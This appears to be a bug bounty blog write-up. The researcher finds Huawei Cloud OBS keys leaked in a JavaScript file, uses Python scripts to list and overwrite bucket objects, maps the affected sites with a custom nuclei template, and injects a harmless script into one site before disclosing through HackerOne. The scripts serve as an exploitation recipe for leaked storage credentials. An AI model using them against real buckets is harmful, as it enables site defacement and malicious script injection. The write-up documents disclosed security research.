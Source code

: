 ```yaml
---
title: "Exposed secret keys leading to multiple site defacement for $800"
date: 2025-02-21T11:37:50+08:00
draft: false
summary: Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.
---
```

![leaked keys](/leaked-obs-keys.jpg)
> Finding secret keys in a JS file—this is like finding money in a trashcan. Yeah that's a JavaScript is trash joke.

Revisiting another old report.

I found exposed secret keys in a inconspicious JavaScript file at `river.[redacted].com`, which could allow a malicious actor to deface multiple websites of a entertainment platform in the Philippines and I got $800 out of it.

---

Doing my usual poking-around after work, I found this seemingly new, but otherwise normal-looking website of my target.

I checked the website out, did my usual fuzzing and find nothing. I couldn't even tell what the website does—I couldn't get past the login screen.

I inspected the source code, opened its JS files, and checked for any API calls, and I found nothing of interest. Then I did a global text search for `_key`, just in case some lazy developer didn't bother configuring their secret keys properly.

```plaintext
var define_import_meta_env_default$1 = {
...
	VITE_OBS_BUCKET_NAME: "dl-patch-river-com",
	VITE_OBS_PATH_PREFIX: "mgames/nhk/common/events/",
	VITE_OBS_ACCESS_KEY: "ATXC1DVXV2[redacted]",
	VITE_OBS_SECRET_KEY: "EQnZvv1HfpEoT62[redacted]",
...
};
```
> _Welp, well I be damned_

Interesting. But I have no idea what these keys are for. Looking up "OBS", [Huawei Cloud OBS](https://www.huaweicloud.com/intl/en-us/product/obs.html) turns up.

## Huawei Cloud Object Storage Service

[**Huawei Cloud OBS**](https://www.huaweicloud.com/intl/en-us/product/obs.html)—is a file bucket storage service by Huawei Cloud. It's basically an alternative to Amazon S3 and Google Cloud Storage.

They also have a Python SDK `esdk-obs-python`, which should make it easier for me to write a Python exploit script.

## Testing the leaked keys

### Testing read access
I wrote a simple Python script that lists down all of the contents of the bucket:

```py
# obs.py
from obs import ObsClient


if __name__ == "__main__":
    access_key = "ATXC1D[redacted]"
    secret_key = "EQnZvv1HfpEoT6[redacted]"
    bucket = "dl-patch-[redacted]-com"
    server = "https://obs.ap-southeast-3.myhuaweicloud.com/"
    region = "ap-southeast-3"

    prefix = "mgames/nhk/common/events/"
    
    obsClient = ObsClient(
        access_key_id=access_key,
        secret_access_key=secret_key,
        server=server
    )

    objects = obsClient.listObjects(bucket)
    for obj in objects.body.contents:
        print(obj.url)
    
    obsClient.close()
```

Running the script, I was able to fetch the contents of the bucket which contains 5,000+ objects:

```plaintext
https://dl.[redacted].com/mgames/nhk/common/events/2023/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-grid.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-reboot.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css
https://dl.[redacted].com/mgames/nhk/common/events/2023/css/bootstrap-utilities.css.map
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.eot
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.svg
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.ttf
https://dl.[redacted].com/mgames/nhk/common/events/2023/fonts/AgencyFB-Black.wof
...[redacted for brevity]...
```
> _The keys worked!_

### Testing write access
I adjusted the script to upload an HTML file to the bucket

```py
    target_file = f"{prefix}/tedminfosec.html"
    local_file = "./tedminfosec.html"
    print(f"Uploading {local_file} to {target_file}")
    obsClient.putFile(bucket, target_file, local_file)
```

And sure enough, my HTML file was uploaded to the bucket!

![html file](/leaked-obs-keys-html-file.png)

## Important observation
- I noticed that I was able to _update_ my file by running the script again. **This means I could potentially overwrite any item in the bucket.**

## Understanding the potential impact

Knowing that my target has _thousands_ of domains, I asked myself:
- _Could it be possible that this bucket serves static files for some of these websites?_
- _Is there a way for me to inject arbitrary JavaScript code into these websites?_

Analyzing the leak, a notable configuration setting is the `VITE_OBS_PATH_PREFIX`, which has the value `mgames/nhk/common/events/`.

This means I have to **identify all websites that contain `mgames/nhk/common/events/` in their source code.** To do that, I used [nuclei](https://github.com/projectdiscovery/nuclei) with a custom template.

## Writing a custom nuclei template

Nuclei is a fast, customizable vulnerability scanner but has a somewhat bad rap in the bug bounty community because a lot of researchers get dupes from it. That's simply bound to happen if everyone uses the same templates!

I think nuclei is best used for low-hanging bugs and _custom templates_ that you write yourself. Writing effective custom templates, however, requires a deep understanding of the target.

Here's my custom template to identify the websites that use the compromised storage bucket:

```yaml
id: obs-leak 
info:
  name: OBS Leak
  author: tedm.infosec
  severity: info
requests:
  - method: GET
    path:
      - "{{BaseURL}}/"
    matchers:
      - type: word
        words: 
          - "mgames/nhk/common/events/"
        part: body
```

With the list of live subdomains of `[redacted].com` in `http.txt`, I pipe it into `nuclei` like so:

```plaintext
cat http.txt | nuclei -t ~/custom-nuclei-templates/adhoc/tmp.yaml
                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.1.10

                projectdiscovery.io

[WRN] Found 1 templates loaded with deprecated protocol syntax, update before v3 for continued support.
[INF] Current nuclei version: v3.1.10 (outdated)
[INF] Current nuclei-templates version: v10.1.2 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 52
[INF] Templates loaded for current scan: 1
[WRN] Executing 1 unsigned templates. Use with caution.
[INF] Targets loaded for current scan: 6004
[obs-leak] [http] [info] https://console.df.[redacted].com/
[obs-leak] [http] [info] https://voting.df.[redacted].com/
[obs-leak] [http] [info] https://members.[redacted].com/
[obs-leak] [http] [info] https://connect.16273.[redacted].com/
...[redacted for brevity]...
```

## Running arbitrary JavaScript in one of their websites
I chose one seemingly unimportant website from the list of websites detected by `nuclei`. Then I identified the JS file hosted from the bucket, updated its code so it prints out `hello from tedminfosec` in the console:

![proof of concept](/leaked-obs-keys.PNG)
> _It works._

## Responsible disclosure
Now that I have a good proof-of-concept to show that I compromised their website, I submitted a report detailing my exploit through their HackerOne of the company. A few weeks later I receive a reply:

![reward](/leaked-obs-keys-reward.PNG?1)

## Takeaways
- Developers _always_ make mistakes, capitalize on that.
- Knowing how to write your own `nuclei` templates can be incredibly useful.
- A bit of Python can help in writing exploits.
- Mapping the attack surface of a target is crucial for successful attacks.
